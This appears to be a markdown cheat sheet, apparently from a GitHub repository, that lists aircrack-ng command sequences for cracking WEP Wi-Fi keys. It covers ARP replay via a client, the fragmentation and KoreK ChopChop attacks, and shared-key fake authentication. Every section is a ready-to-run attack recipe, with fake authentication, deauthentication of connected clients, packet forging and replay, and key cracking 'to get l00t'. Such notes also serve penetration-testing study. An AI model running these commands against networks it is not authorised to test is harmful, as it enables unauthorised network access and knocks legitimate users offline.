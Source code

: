 # Cracking WEP via Client - https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_via_a_wireless_client
* Set your WiFi card to monitor mode with airmon-ng
* Run airodump-ng and output to a file: airodump-ng -c [CHANNEL] --bssid [BSSID] -w [FILENAME] wlan1mon
* Fake authenticate to the AP: aireplay-ng -1 0 -e [ESSID] -a [AP MAC] -h [OurMACAddress] wlan1mon
* Natural packet replay: aireplay-ng -2 -b [AP MAC] -d FF:FF:FF:FF:FF:FF -t 1 wlan1mon 
* Modified packet replay: aireplay-ng -2 -b [AP MAC] -t 1 -c FF:FF:FF:FF:FF:FF -p 0841 wlan1mon
* Running the attack: aireplay-ng -2 -b [AP MAC] -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan1mon
* Replay from file: aireplay-ng -2 -r [CAPTURE] wlan1mon
* Crack ze key: aircrack-ng -z [CAPTURE]

# Fragmentation Attack - https://www.aircrack-ng.org/doku.php?id=fragmentation
* Use this when there are no clients authenticated to the AP.
* Set your WiFi card to monitor mode with airmon-ng
* Run airodump-ng and output to a file: airodump-ng -c [CHANNEL] --bssid [BSSID] -w [FILENAME] wlan1mon
* Fake authenticate and send keep alive packets: aireplay-ng -1 6000 -e [ESSID] -b [AP MAC] -h [OurMACAddress] wlan1mon
* Launch fragmentation attack with airreplay.ng: aireplay-ng -5 -b [AP MAC] -h [OurMACAddress] wlan1mon
* Use packetforge-ng to generate an ARP request packet with the XOR file: packetforge-ng -0 -a [AP MAC] -h [OurMACAddress] -l [SourceIP e.g. 192.168.1.100] -k [DestinationIP e.g. 192.168.1.255] -y [.xor FILE] -w arprequest
* Replay this packet with aireplay.ng: aireplay.ng -2 -r arprequest.cap wlan1mon

# KoreK ChopChop Attack - https://www.aircrack-ng.org/doku.php?id=korek_chopchop
* Start airodump with the appropriate settings: airodump-ng -c [CHANNEL] --bssid [BSSID] -w [FILENAME] wlan1mon
* Fake authentication: aireplay-ng -1 0 -e [ESSID] -a [BSSID] -h [OurMACAddress] wlan1mon
* Perform the KoreK ChopChop attack: aireplay-ng -4 -b [AP MAC] -h [OurMacAddress] wlan1mon
* Identify the packet a little more to discover information about the network: tcpdump -s 0 -n -e -r <CAPTURE>  
* Craft a packet to replay: packetforge-ng -0 -a [AP MAC] -h [OurMACAddress] -l [SourceIP e.g. 192.168.1.100] -k [DestinationIP e.g. 192.168.1.255] -y [.xor FILE] -w arpkorek
* Replay this packet with aireplay.ng: aireplay.ng -2 -r arprequest.cap wlan1mon
* Run aircrack-ng against the packet capture while replaying to crack the key and get l00t.

# Shared-key Fake Authentication - https://www.aircrack-ng.org/doku.php?id=shared_key
* Start airodump-ng: airodump-ng -c [CHANNEL] --bssid [BSSID] -w [FILENAME] wlan1mon
* Deauthenticate a client copnnected to the AP: aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan1mon
* Wait for a notification in airodump-ng stating that the keystream has been captured which will generate a .xor file
* Attempt to authenticate using the capture: aireplay-ng -1 0 -e [ESSID] -y [.xor FILENAME] -a [AP MAC] -h [OurMACAddress] wlan1mon
* We can also modify the above authentication with an association timing to prevent timeouts: aireplay-ng -1 6000 -e [ESSID] -y [.xor FILENAME] -a [AP MAC] -h [OurMACAddress] wlan1mon
* This will give us a foothold to carry out other attacks such as ARP replaying and utilizing aircrack.ng
* If we were to pursue this approach we could run the following command: aireplay-ng -3 -b [AP MAC] -h [OurMACAddress] wlan1mon
* Finally, we would run aircrack.ng while running the ARP replay attack to get l00t. 
